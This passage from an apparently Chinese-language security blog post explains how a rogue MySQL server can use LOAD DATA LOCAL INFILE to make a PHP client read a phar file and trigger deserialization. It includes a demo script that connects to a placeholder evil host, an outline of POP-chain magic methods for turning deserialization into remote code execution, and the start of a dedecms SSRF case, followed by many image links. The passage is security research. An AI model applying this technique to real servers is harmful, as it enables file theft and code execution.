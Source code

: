 使用该文件生成一个phar.phar

然后我们模拟一次查询
```
test.php

<?php
class A {
    public $s = '';
    public function __wakeup () {
        echo "pwned!!";
    }
}


$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, '{evil_mysql_ip}', 'root', '123456', 'test', 3667);
$p = mysqli_query($m, 'select 1;');

// file_get_contents('phar://./phar.phar');
```

图中我们只做了select 1查询，但我们伪造的evil mysql server中驱使mysql client去做`load file local`查询，读取了本地的
```
phar://./phar.phar
```

成功触发反序列化
![image.png-33.1kB][28]


## 反序列化 to RCE

当一个反序列化漏洞出现的时候，我们就需要从源代码中去寻找合适的pop链，建立在pop链的利用基础上，我们可以进一步的扩大反序列化漏洞的危害。

php序列化中常见的魔术方法有以下
- 当对象被创建的时候调用：__construct
- 当对象被销毁的时候调用：__destruct
- 当对象被当作一个字符串使用时候调用：__toString
- 序列化对象之前就调用此方法(其返回需要是一个数组)：__sleep
- 反序列化恢复对象之前就调用此方法：__wakeup
- 当调用对象中不存在的方法会自动调用此方法：__call

配合与之相应的pop链，我们就可以把反序列化转化为RCE。



### dedecms 后台反序列化漏洞 to SSRF

dedecms 后台，模块管理，安装UCenter模块。开始配置

![image.png-537.2kB][31]

首先需要找一个确定的UCenter服务端，可以通过找一个dz的站来做服务端。


[1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3t0iv2wtgra8pjxb3hlgv4ao/image.png
[2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n0rx8iobd8fxtx5dunos7km3/image.png
[3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4x1yyuqbcnugcbqvzofcs3pp/OXDM5E5$ST51%5B$0B%60@BBG~S.png
[4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/eqng4m7z35a0b7qclj1jmg21/image.png
[5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7yori2fkfjl9dlmgtussxdd4/image.png
[6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/m6gjcjz5w63tnh79jjl2id7k/image.png
[7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bl2bviwpwbj3xbkd9ehp258g/image.png
[8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7sx4ebpx0xtchs4lj0qvo09k/image.png
[9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tobzz9kf0ikfp3h5jqi07m4i/image.png
[10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b4xa1b2s05wue6o04k7i1wfw/image.png
[11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ock8gpk4wjufrzu434o4sh2e/image.png
[12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qwoi5pnwgiw1lmdcx5e7836b/image.png
[13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ub5d1ylbd28m9o8zalt4cnto/image.png
[14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dfs1q3dm1i6r10mjywgpp819/image.png
[15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mrqd72185373870f6wrdas8a/image.png
[16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y0x18uc96fwpov4bqn0qhhqj/image.png
[17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lwmbbklsfgdti60e8qyjqtw7/image.png
[18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/72iqa6e7i3928wckfuacxiny/image.png
[19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ijivo1toa7afcm4gug7tjzk5/image.png
[20]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0adbu75qrcuv8caau262m34i/image.png
[21]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6orndbdfrf1bqysouez1uauj/image.png
[22]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ciy78f57vftzichc3xg82qgd/image.png
[23]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ngn1u8fu15qz5d9830lrcbhn/image.png
[24]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xd6jvuhaofstoduthnb15a1w/image.png
[25]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vpa6tokfa26dng7eqr8bsubc/image.png
[26]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4cief0ku1991kkpavlda1lm6/image.png
[27]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1dl9y4ioznpis2z2xi5ixxdd/image.png
[28]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/j27yhc2er961j4gqttmhwutu/image.png
[29]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4dr8vlhpn5lnn8ktq1jbn2ao/image.png
[30]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/twls59xuylfk78j4ikrk3eii/image.png
[31]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hwg8ahoh48odump72h6tf3c1/image.png
[32]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4ze2by2xa8jwgbnvpquoxxt6/image.png
[33]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ccwgrjox5x7nxklrtnaxaemk/image.png
[34]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g5mmomxuunolwnwd69vcf567/image.png
[35]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i9m3hv9246ziexne1c2d7iik/image.png
[36]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/notx2emuvmf7y0nd7w84sj14/image.png
[37]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qe1q1zcew7fxp32gtb4ub0jh/image.png
[38]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/otdllmlrbgd0tygavkolgnlb/image.png
[39]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4yfa4fir4mp1np0jc25gffnw/image.png
[40]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g7z10bjdd0dphkwuv4k17up7/image.png
[41]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/w9fokrfdntuwsgf9kx9ypcqa/image.png
[42]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4rfb6q9bzgunh41snsx2jqhp/image.png
[43]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1xt3jcs0jaiekw13t78nxymi/image.png
[44]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7yfr1ef8rzjggwaju4xyn9ld/image.png
[45]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8vwz2j222q7nh07r71m12cb4/image.png
[46]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7jbzoxpoon4bq9cbldg2zv8f/image.png